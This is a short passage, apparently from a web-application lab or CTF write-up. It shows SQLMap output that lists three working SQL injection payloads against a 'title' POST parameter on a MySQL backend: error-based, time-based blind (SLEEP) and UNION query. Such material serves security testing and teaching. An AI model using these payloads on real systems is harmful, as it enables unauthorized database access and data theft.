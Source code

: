 ![SQLMap request](1-webapp-httpassets/image-20230504194119586.png)

```bash
---
Parameter: title (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: title=example' AND (SELECT 9391 FROM(SELECT COUNT(*),CONCAT(0x716a7a7071,(SELECT (ELT(9391=9391,1))),0x7162717871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'Yvps'='Yvps&action=search

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: title=example' AND (SELECT 6244 FROM (SELECT(SLEEP(5)))dWNC) AND 'Hfwn'='Hfwn&action=search

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: title=example' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a7a7071,0x7463445853774f49666461525a4b446d4a624a706a414976706b56495977444675766767546d6347,0x7162717871),NULL-- -&action=search
---
```
